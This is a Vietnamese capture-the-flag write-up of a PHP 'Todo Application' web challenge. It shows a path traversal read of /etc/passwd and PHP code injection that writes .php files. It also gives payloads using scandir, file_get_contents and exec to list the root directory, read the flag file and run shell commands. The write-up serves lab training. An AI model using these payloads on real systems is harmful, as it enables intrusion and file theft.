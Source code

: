 ```yaml
---
title: Write-Up Todo Application
date: 2023-10-05 18:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```


## **Challenge Details**
COPYRIGHT: ren6806/Hutech xD 
COPYRIGHT: ren6806/Hutech xD 
COPYRIGHT: ren6806/Hutech xD 
COPYRIGHT: ren6806/Hutech xD 
Lười viết quá copy của ông anh :P
All your work will be saved to a checklist in the todo.txt file. Can a PHP Web Shell be created on this server? Could you try and read FLAG? (Chắc lại phải RCE ời).

- **Flag Location: /flagXXXX.txt**
- **Flag Format: CHH{XXX}**
- **Credits: YesWeHack**

## **Web Analysis:**

Tại `/` trang web:

Quan sát ta thấy 1 ô input và 1 đoạn code PHP hmm.

<img src="/assets/writeup/cookie/TodoApplication/0.png">
Mình thử nhập bất kì vào ô input và ấn enter.

<img src="/assets/writeup/cookie/TodoApplication/1.png">

Ta quan sát thấy và rằng xuất hiện 2 parameter `?add` và `&fileTodo` 

Hiểu nhanh là `?add=input_strings` và  `&fileTodo=_input_file` —> **+1 idea test bug path traversal**

## **Source Code Analysis:**

Này không copy được code nên mình giải thích nhanh nhé:

khai báo biến $file với giá trị là todo.txt khi input ta nhập vào checkbox và nó sẽ set vào param là ?add + với $file là todo.txt.

Nên bất kì mình nhập vào ô input thì nó đều ghi vào file.

Nhưng đoạn code không có thêm blacklist hay whitelist kiểm tra về ghi mã độc và kiểm tra đuôi file. Nên đều này có thể dẫn đến hacker có thể ghi 1 file webshell vào input và đỗi đuôi file từ .txt sang .php dẫn dến có thể RCE hệ thống.

<img src="/assets/writeup/cookie/TodoApplication/2.png">

## **Exploiting Code Injection, Path traversal:**

Chứng minh có bug path traversal ( Là 1 hacker giỏi không bao giờ bỏ sót bugs, dù nó không có Flag trong đó nhưng vẫn check nhé).

### Cách 1: sử dụng hàm scandir và file_get_contents

Gói tin ban đầu.

<img src="/assets/writeup/cookie/TodoApplication/3.png">

Thử thêm ../../etc/passwd vào $filetodo xem có được hay không nhé.

<img src="/assets/writeup/cookie/TodoApplication/4.png">

Bèm có bugs path traversal luôn, lòi luôn cái path file index.php 🙂 (do file flag random nên không xem được bằng lỗi này, phải RCE thôi)

đoạn code trong cái ảnh ở trên nè

`/var/www/app/index.php`

<img src="/assets/writeup/cookie/TodoApplication/5.png">

Chứng minh ghi được code php và thay đỗi đuôi file.

<img src="/assets/writeup/cookie/TodoApplication/6.png">

Ghi vào khi báo bugs gì giờ test `/info.php` xem. 

Tèn ten được luôn đây này, giờ thì làm cái file shell và đọc file flag thôi nhỉ?

<img src="/assets/writeup/cookie/TodoApplication/7.png">

Nhưng mình test 7749 cách ghi shell nhưng phát hiện bị disable funtions nên hết ghi được file shell
(à không phải hết mà do test thiếu case 🙂 nó sẽ ở cách 2 nhé, giờ mình chỉ cách bị disable funtions)

<img src="/assets/writeup/cookie/TodoApplication/8.png">

Tuy vậy mình phát hiện ra rằng nó không hề disable `file_get_contents` và `scandir` .

- `scandir` : liệt kê tất cả các file (giống cmd ls trên ls)
- `file_get_contents` : đọc file

Giờ code nhẹ nhé

Search google về scandir thì có sẵn rồi : [ở đây nè](https://www.w3schools.com/php/func_directory_scandir.asp)

ở khúc bug path traversal ấy, ../../../ 3 lần là quay về thư mục gốc nên sửa lại trong này để liệt kê các file ở thư mục gốc nhé.

Payload: 

```php
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```

Lười ghi nên copy past qua đây cho lẹ

<img src="/assets/writeup/cookie/TodoApplication/9.png">

<img src="/assets/writeup/cookie/TodoApplication/10.png">

Send và đọc file `1.php`

<img src="/assets/writeup/cookie/TodoApplication/11.png">

1 file pha ke và 1 file real.

biết được tên file flag rồi thì dùng `file_get_contents` đọc ra thôi.

Payload:

```php
<?php
$dir = "../../../";
$a = scandir($dir);
$b =file_get_contents("../../../flagqsBKh.txt");
print_r($a);
print_r($b);
?>
```

<img src="/assets/writeup/cookie/TodoApplication/12.png">

DONE cách 1

<img src="/assets/writeup/cookie/TodoApplication/13.png">

### Cách 2: sử dụng hàm EXEC RCE.

Mình đã test thiếu case này do không khai báo biến. Để rồi mò luôn cả CVE của php lạc hướng luôn :<

Bình thường mình test webshell sẽ kiểu như này.

```php
<?php exec(id); ?>
```

<img src="/assets/writeup/cookie/TodoApplication/14.png">

<img src="/assets/writeup/cookie/TodoApplication/15.png">

Nó không cho in ra, nên mình đã loại trừ nó nhanh chóng để test case khác.

Nhưng mình đã sai, giờ cũng sửa nhé.

Vì trang web hình như không cho `echo` ra trực tiếp nên mình sẽ khai báo biến và test lại.

Payload:

```php
<?php
$a = exec(id);
echo($a)
?>
```

<img src="/assets/writeup/cookie/TodoApplication/16.png">

<img src="/assets/writeup/cookie/TodoApplication/17.png">

Giờ thì thực thi webshell bình thường

```php
<?php
$a = exec('ls /');
echo($a)
?>
```

Xem file và cat file nhé

donee =)))
----------------------------------------------------------------------------------------------------------
